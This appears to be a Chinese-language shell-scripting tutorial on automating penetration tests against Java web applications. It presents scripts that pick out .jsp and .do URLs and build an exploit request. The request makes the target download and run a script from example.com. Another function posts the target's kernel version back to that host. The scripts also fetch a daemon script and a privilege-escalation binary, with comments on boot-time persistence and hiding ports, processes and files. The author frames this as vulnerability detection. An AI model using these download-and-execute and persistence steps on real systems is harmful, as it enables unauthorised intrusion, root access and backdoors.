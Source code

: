 ## 分析shell脚本，自动化渗透
如果不会shell编程，这里需要自己自学shell编程。

### 0x00 理解自动化
自动化渗透，也就是流水线般的去做渗透测试。
在个人看来渗透主要分三步骤，什么样的需求①，达到什么样的目的②，最终结果③，渗透的主要三个步骤。
以目前的技术要达到完全的自动化，还无法做到，只能做到针对性强，非常有局限的自动化。
但是可以通过需求、目的、结果来进行建模，就类似搭积木一样，可以应对大部分情况。

### 0x01 需求
分析漏洞需求，在满足什么样的条件触发exp。比如Java反序列化漏洞，明确的知道哪些应用程序使用了该
技术，通过特征过滤包含这些应用程序特征的程序。
例如，我需要过滤*.do,*.action,*.jsp后缀的名字来确认是否使用java编写的应用程序
```shell
#!/bin/sh
#过滤所有URL,对java应用程序进行渗透测试
URL=`cat 1.log | grep -Eo "<a[^>]+?href=[\"']?([^\"']+)[\"']?[^>]*>([^<]+)</a>"`
#过滤do或者jsp或者action的query请求。
JSP=`echo $URL | grep -Eo "http[s]?://([A-Za-z0-9\.]*)?/[0-9a-zA-Z0-9/]+([^\.jsp]+)\.jsp"`
DO=`echo $URL | grep -Eo "http[s]?://([A-Za-z0-9\.]*)?/[0-9a-zA-Z0-9/]+\.do([\?]?[^\"']+)?"`

ANYLIST=()
LIST=$JSP$DO
foreach(){
	for url in $LIST;do
		#执行目标
	done
	echo 
	return 0;
}

```


### 0x02 目的
满足需求后执行我们的目的，也就是漏洞利用，但是在利用之前，要确定，如果成功，需要做什么事情，
那么，一般黑帽做到这步的情况，就是提权留后门，由于我们只做测试检测，所以，在这里，就只要求服务器向
我们的中间服务器发送一个带kernel参数的POST，来确定目标系统的版本。
```shell
#!/bin/sh
#执行目标
exp $url
#exp的实现，根据java的各种漏洞，如java反序列化，struts2等漏洞（如果是此类型漏洞可能还需要进一步
#确定，如果无法确认，放入任意漏洞检测队列）。
#构造请求包，执行系统调用，大致实现是
while read line
do 
    data="$data${line}"
done < data.dat
exp(){
	#构造一个请求包，向服务器发送请求。目标服务器下载中间服务器脚本程序执行。
	#data的数据类似data=curl -k -L http://www.example.com/curl-exp.sh -o curl-exp.sh && 
	#chmod +x curl-exp.sh && /bin/sh curl-exp.sh 
	curl -k -L $1 -F "data=$data"
}
#实现一个隐藏端口，隐藏进程，隐藏文件的`linux mod`,
#由于这里做检测，所以只实现一个http请求。
#daemon-exp.sh
daemon_exp(){
	KK=`uname -a`
	curl -k -L -F "kernel="$KK http://www.example.com/push.php 
}
#编写`shell init`放到启动项里根据不同情况触发，如：`/etc/init/[rc0.d,rc1.d,rc2.d,rc3.d,rc4.d]`
#把daemon-exp.sh放入rc3.d开机启动里面；

#运行程序
#curl_exp.sh

CURL=`which curl`
if [ "$CURL" = "" ];then
	exit 1;
fi
if [ $? != 0 ];then
	exit 1;
fi

#此处下载执行隐藏端口，隐藏进程，隐藏文件的命令脚本
curl -k -L http://www.example.com/daemon-exp.sh -o daemon-exp.sh #shell-init script
#su
curl -k -L http://www.example.com/su.out -o su.out #执行提权，用最高权限执行shell脚本
chmod +x $(pwd)/su.out
./su.out daemon-exp.sh
exit 0;


```

### 0x03 结果
验证中间服务器收到的请求，确定目标机存在漏洞。
查看已经成功运行我们的exp脚本服务器。

PS：
①需求，这里指满足条件。
②目的，在满足需求的情况下，是否要拿到root权限，留下后门等。
③结果，完成所有目的操作，无任何异常或者错误。

